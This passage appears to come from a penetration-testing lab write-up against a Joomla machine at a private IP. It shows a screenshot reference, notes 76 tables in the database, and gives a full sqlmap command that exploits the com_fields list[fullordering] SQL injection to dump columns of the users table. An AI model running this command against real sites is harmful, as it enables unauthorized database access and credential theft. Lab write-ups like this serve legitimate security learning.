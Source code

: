 ![Screen Shot 2019-06-03 at 2.31.59 PM.png](/assets/images/screen-shot-2019-06-03-at-2.31.59-pm.png)

The interesting thing is that we got a list of **76** tables in the `joomladb` database. For me, the crucial table is `#__users`. I decided to get the columns in that table using the command: `sqlmap -u "http://192.168.56.101/index.php option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --columns -D joomladb -T "#__users"`

